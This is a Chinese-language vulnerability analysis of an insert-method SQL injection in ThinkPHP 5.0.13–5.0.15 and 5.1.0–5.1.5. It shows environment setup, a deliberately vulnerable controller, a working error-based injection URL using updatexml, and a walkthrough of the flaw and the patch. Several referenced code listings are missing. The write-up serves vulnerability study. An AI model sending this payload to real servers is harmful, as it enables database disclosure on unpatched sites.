









# 5.0.13 <= Thinkphp <= 5.0.15 & 5.1.0 <= Thinkphp <= 5.1.5

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **insert** 方法注入）。本次漏洞存在于 **Builder** 类的 **parseData** 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生。

## 二、漏洞影响

**5.0.13<=ThinkPHP<=5.0.15** 、 **5.1.0<=ThinkPHP<=5.1.5** 。

## 三、复现过程

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.0.15 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.15"
} 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$username = request()->get(‘username/a’);

db(‘users’)->insert([‘username’ => $username]);

return ‘Update success’;

}

}` 
```

在 **application/database.php** 文件中配置数据库相关信息，并开启 **application/config.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
); 
```

### poc

```
http://0-sec.org/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）



### 漏洞分析



首先在官方发布的 **5.0.16** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其修改的 **Builder.php** 文件代码比较可疑。



接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，代码如下：



而 **Mysql** 类继承于 **Builder** 类，即上面的 **$this->builder->insert()** 最终调用的是 **Builder** 类的 **insert** 方法。在 **insert** 方法中，我们看到其调用 **parseData** 方法来分析并处理数据，而 **parseData** 方法直接将来自用户的数据 **$val** 进行了拼接返回。我们的恶意数据存储在 **$val[1]** 中，虽经过了 **parseKey** 方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。



上面，我们看到直接将用户数据进行拼接。然后再回到 **Builder** 类的 **insert** 方法，直接通过替换字符串的方式，将 **$data** 填充到 **SQL** 语句中，进而执行，造成 **SQL注入漏洞** 。



至此，我们已将整个漏洞分析完了。实际上，上面的 **switch** 结构中，3种情况返回的数据都有可能造成 **SQL** 注入漏洞，但是在观察 **ThinkPHP** 官方的修复代码中，发现其只对 **inc** 和 **dec** 进行了修复，而对于 **exp** 的情况并未处理，这是为什么呢？

实际上， **exp** 的情况早在传入 **insert** 方法前就被 **ThinkPHP** 内置过滤方法给处理了，如果数据中存在 **exp** ，则会被替换成 **exp空格** ，这也是为什么 **ThinkPHP** 官方没有对 **exp** 的情况进行处理的原因了。具体内置过滤方法的代码如下：



### 漏洞修复



### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。



## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln